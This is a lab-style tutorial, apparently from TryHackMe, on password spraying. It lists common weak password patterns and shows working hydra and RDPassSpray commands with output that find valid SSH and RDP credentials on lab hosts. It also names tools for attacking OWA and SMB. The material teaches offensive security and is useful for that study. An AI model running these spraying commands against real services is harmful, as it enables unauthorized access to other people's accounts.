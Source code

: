 # Password Spraying Attack

This task will teach the fundamentals of a password spraying attack and the tools needed to perform various attack scenarios against common online services.

Password Spraying is an effective technique used to identify valid credentials. Nowadays, password spraying is considered one of the common password attacks for discovering weak passwords. This technique can be used against various online services and authentication systems, such as SSH, SMB, RDP, SMTP, Outlook Web Application, etc. 

A brute-force attack targets a specific username to try many weak and predictable passwords. While a password spraying attack targets many usernames using one common weak password, which could help avoid an account lockout policy. The following figure explains the concept of password spraying attacks where the attacker utilizes one common password against multiple users.

## Common Weak Password Patterns

Common and weak passwords often follow a pattern and format. Some commonly used passwords and their overall format include:

- **Season + Year**: For example, `Fall2020`, `Spring2021`, etc.
- **Month + Year**: For example, `November2020`, `March2021`, etc.
- **Company Name + Numbers**: For example, `TryHackMe01`, `TryHackMe02`.
- **Password with Symbols**: If a password complexity policy is enforced, passwords may include symbols, such as `October2021!`, `Spring2021!`, `October2021@`, etc.

To successfully perform a password spraying attack, we need to enumerate the target and create a list of valid usernames (or email addresses).

## Password Spraying Scenarios

### SSH

Assume that we have already enumerated the system and created a valid username list:

```bash
user@THM:~# cat usernames-list.txt
admin
victim
dummy
adm
sammy
```

We can use `hydra` to perform the password spraying attack against the SSH service using the `Spring2021` password:

```bash
user@THM:~$ hydra -L usernames-list.txt -p Spring2021 ssh://10.1.1.10
[INFO] Successful, password authentication is supported by ssh://10.1.1.10:22
[22][ssh] host: 10.1.1.10 login: victim password: Spring2021
[STATUS] attack finished for 10.1.1.10 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
```

- `-L`: Load the list of valid usernames.
- `-p`: Use the `Spring2021` password against the SSH service at `10.1.1.10`.

The output shows that we successfully found credentials.

### RDP

Assume we found an exposed RDP service on port `3026`. We can use a tool such as `RDPassSpray` to perform the password spraying attack. First, install the tool on your attacking machine by following the installation instructions in the tool’s GitHub repository.

To see the usage options, run:

```bash
user@THM:~# python3 RDPassSpray.py -h
```

Now, let's try using the `-u` option to specify the victim as a username and the `-p` option to set the password `Spring2021!`. The `-t` option is used to select a single host to attack:

```bash
user@THM:~# python3 RDPassSpray.py -u victim -p Spring2021! -t 10.100.10.240:3026
[13-02-2021 16:47] - Total number of users to test: 1
[13-02-2021 16:47] - Total number of password to test: 1
[13-02-2021 16:47] - Total number of attempts: 1
[13-02-2021 16:47] - [*] Started running at: 13-02-2021 16:47:40
[13-02-2021 16:47] - [+] Cred successful (maybe even Admin access!): victim :: Spring2021!
```

The output shows that we successfully found valid credentials `victim:Spring2021!`. If in an Active Directory environment, you can specify a domain name using the `-d` option:

```bash
user@THM:~# python3 RDPassSpray.py -U usernames-list.txt -p Spring2021! -d THM-labs -T RDP_servers.txt
```

### Other Services

#### Outlook Web Access (OWA) Portal

Tools:
- `SprayingToolkit` (atomizer.py)
- `MailSniper`

#### SMB

Tool:
- `Metasploit` (`auxiliary/scanner/smb/smb_login`)